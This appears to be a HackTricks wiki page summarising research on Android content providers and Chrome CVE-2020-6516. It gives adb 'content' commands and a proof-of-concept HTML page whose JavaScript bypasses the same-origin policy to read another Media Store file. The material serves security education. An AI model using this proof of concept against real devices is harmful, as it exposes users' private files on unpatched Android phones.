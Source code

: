 

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

**This is a summary of the post [https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/](https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/)**

### Listing Files in Media Store
To list files managed by the Media Store, the command below can be used:
```bash
$ content query --uri content://media/external/file
```

For a more human-friendly output, displaying only the identifier and path of each indexed file:
```bash
$ content query --uri content://media/external/file --projection _id,_data
```

Content providers are isolated in their own private namespace. Access to a provider requires the specific `content://` URI. Information about the paths for accessing a provider can be obtained from application manifests or the Android framework's source code.

### Chrome's Access to Content Providers
Chrome on Android can access content providers through the `content://` scheme, allowing it to access resources like photos or documents exported by third-party applications. To illustrate this, a file can be inserted into the Media Store and then accessed via Chrome:

Insert a custom entry into the Media Store:
```bash
cd /sdcard
echo "Hello, world!" > test.txt
content insert --uri content://media/external/file \
    --bind _data:s:/storage/emulated/0/test.txt \
    --bind mime_type:s:text/plain
```

Discover the identifier of the newly inserted file:
```bash
content query --uri content://media/external/file \
    --projection _id,_data | grep test.txt
# Output: Row: 283 _id=747, _data=/storage/emulated/0/test.txt
```

The file can then be viewed in Chrome using a URL constructed with the file's identifier.

For instance, to list files related to a specific application:
```bash
content query --uri content://media/external/file --projection _id,_data | grep -i <app_name>
```

### Chrome CVE-2020-6516: Same-Origin-Policy Bypass

The _Same Origin Policy_ (SOP) is a security protocol in browsers that restricts web pages from interacting with resources from different origins unless explicitly allowed by a Cross-Origin-Resource-Sharing (CORS) policy. This policy aims to prevent information leaks and cross-site request forgery. Chrome considers `content://` as a local scheme, implying stricter SOP rules, where each local scheme URL is treated as a separate origin.

However, CVE-2020-6516 was a vulnerability in Chrome that allowed a bypass of SOP rules for resources loaded via a `content://` URL. In effect, JavaScript code from a `content://` URL could access other resources loaded via `content://` URLs, which was a significant security concern, especially on Android devices running versions earlier than Android 10, where scoped storage was not implemented.

The proof-of-concept below demonstrates this vulnerability, where an HTML document, after being uploaded under **/sdcard** and added to the Media Store, uses `XMLHttpRequest` in its JavaScript to access and display the contents of another file in the Media Store, bypassing the SOP rules.

Proof-of-Concept HTML:
```xml
<html>
<head>
    <title>PoC</title>
    <script type="text/javascript">
        function poc()
        {
            var xhr = new XMLHttpRequest();

            xhr.onreadystatechange = function()
            {
                if(this.readyState == 4)
                {
                    if(this.status == 200 || this.status == 0)
                    {
                        alert(xhr.response);
                    }
                }
            }

            xhr.open("GET", "content://media/external/file/747");
            xhr.send();
        }
    </script>
</head>
<body onload="poc()"></body>
</html>
```

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


